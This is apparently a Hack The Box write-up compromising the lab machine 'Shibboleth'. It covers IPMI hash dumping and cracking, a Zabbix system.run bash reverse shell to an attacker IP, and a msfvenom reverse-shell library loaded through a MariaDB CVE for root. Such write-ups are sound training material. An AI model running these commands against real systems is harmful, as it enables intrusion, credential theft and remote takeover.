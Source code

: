 > Author: **[knightmare][author-profile]**

## Discovery

### Port Scanning

TCP:

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: FlexStart Bootstrap Template - Index
```

UDP:

```bash
PORT    STATE SERVICE
623/udp open  asf-rmcp
```

### Enumeration

Virtual hosts:

```bash
ffuf -u http://10.10.11.124/ -H 'Host: FUZZ.shibboleth.htb' -w /usr/share/wordlists/discovery/subdomains-top1million-20000.txt -mc 200
# monitor                 [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 64ms]
# monitoring              [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 68ms]
# zabbix                  [Status: 200, Size: 3686, Words: 192, Lines: 30, Duration: 78ms]
```

## Admin on the Web Console

```bash
msfconsole
# use auxiliary/scanner/ipmi/ipmi_cipher_zero
# set rhosts monitor.shibboleth.htb
# run
# [*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts)
# [+] 10.10.11.124:623 - IPMI - VULNERABLE: Accepted a session open request for cipher zero
# [*] Scanned 1 of 1 hosts (100% complete)
# [*] Auxiliary module execution completed
# search ipmi
# use auxiliary/scanner/ipmi/ipmi_dumphashes
# set rhosts monitor.shibboleth.htb
# run
# [+] 10.10.11.124:623 - IPMI - Hash found: Administrator:4996629102020000803e4869896a2d90db7a2bed305d9e3a8cea0a0dcbaec65e5ae344357c775d50a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:28a9b3482c123d3a6e4bdb50bc802433a31ae238
```

The IPMI service is vulnerable to authentication bypass and the admin hash
can be extracted. Then cracked:

```bash
hashcat --help | grep -ia ipmi
   # 7300 | IPMI2 RAKP HMAC-SHA1
hashcat -a 0 -m 7300 credentials/admin.hash /usr/share/wordlists/passwords/rockyou.txt 
```

> Administrator ilovepumkinpie1

It looks like a sysadmin interface: it has system logs, network monitoring,
network topology, application monitoring, etc.

## System "zabbix"

And it can run system commands! Like a native reverse shell, through the
creation of "items". There's a "system.run" key

```
system.run[/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/9999 0>&1',nowait]
```

Then it can be run with "Test => Get value and test".

```bash
id
# uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
```

## Pivoting to System "ipmi-svc"

The usual:

```bash
which python3
# /usr/bin/python3
cat /etc/passwd | grep -avi nologin
# root:x:0:0:root:/root:/bin/bash
# sync:x:4:65534:sync:/bin:/bin/sync
# tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
# pollinate:x:109:1::/var/cache/pollinate:/bin/false
# ipmi-svc:x:1000:1000:ipmi-svc,,,:/home/ipmi-svc:/bin/bash
# Debian-snmp:x:111:119::/var/lib/snmp:/bin/false
# mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty rows 56 columns 135
alias ls='ls -lah --color --group-directories-first'
```

## System Root

The MySQL service is running as root:

```bash
ps aux | grep -ia mysql
# root        1224  0.0  0.0   2608  1820 ?        S    12:26   0:00 /bin/sh /usr/bin/mysqld_safe
```

Most likely the DB password is somewhere in the site config:

```bash
grep -v "^[#;]" /etc/zabbix/zabbix_server.conf | grep -v "^$"
# LogFile=/var/log/zabbix/zabbix_server.log
# LogFileSize=0
# PidFile=/run/zabbix/zabbix_server.pid
# SocketDir=/run/zabbix
# DBName=zabbix
# DBUser=zabbix
# DBPassword=bloooarskybluh
# SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
# Timeout=4
# AlertScriptsPath=/usr/lib/zabbix/alertscripts
# ExternalScripts=/usr/lib/zabbix/externalscripts
# FpingLocation=/usr/bin/fping
# Fping6Location=/usr/bin/fping6
# LogSlowQueries=3000
# StatsAllowedIP=127.0.0.1
mysql -D'zabbix' -u'zabbix' -p'bloooarskybluh' -e'select version();'
# +----------------------------------+
# | version()                        |
# +----------------------------------+
# | 10.3.25-MariaDB-0ubuntu0.20.04.1 |
# +----------------------------------+
```

The DB contains other hashes, most likely useless. On the other hand this
version of MariaDB is [vulnerable][mariadb-cve]. It will trigger the
following payload:

```bash
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f elf-so -o cve.so
```

When setting a global variable to its path:

```bash
mysql -h 127.0.0.1 -D zabbix -u zabbix -p'bloooarskybluh' \
    -e'SET GLOBAL wsrep_provider="/tmp/cve.so";'
```

It opens a root shell on the listening Netcat.

[author-profile]: https://app.hackthebox.com/users/8930

[ipmi-auth-bypass]: https://book.hacktricks.xyz/pentesting/623-udp-ipmi#vulnerability-ipmi-authentication-bypass-via-cipher-0
[mariadb-cve]: https://github.com/Al1ex/CVE-2021-27928
